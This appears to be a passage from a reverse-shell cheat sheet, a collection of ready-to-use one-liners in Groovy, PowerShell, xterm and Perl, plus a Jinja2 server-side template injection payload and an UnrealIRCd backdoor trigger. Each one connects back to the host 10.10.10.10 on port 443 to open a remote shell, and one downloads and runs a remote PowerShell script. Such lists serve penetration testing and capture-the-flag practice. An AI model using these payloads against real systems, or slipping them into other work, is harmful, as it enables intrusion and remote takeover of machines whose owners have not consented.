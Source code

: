 ```
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

## **PowerShell**

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/reverse.ps1')
```

## **Xterm**

```
xterm -display 10.10.10.10:443
```

## **Perl**

```
perl -e 'use Socket;$i="10.10.10.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## **Server Side Template Injection**

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

## **UnrealIRCd**

```
echo "AB;nc -e /bin/sh 10.10.10.10 443" |nc 192.168.1.3 6667
```
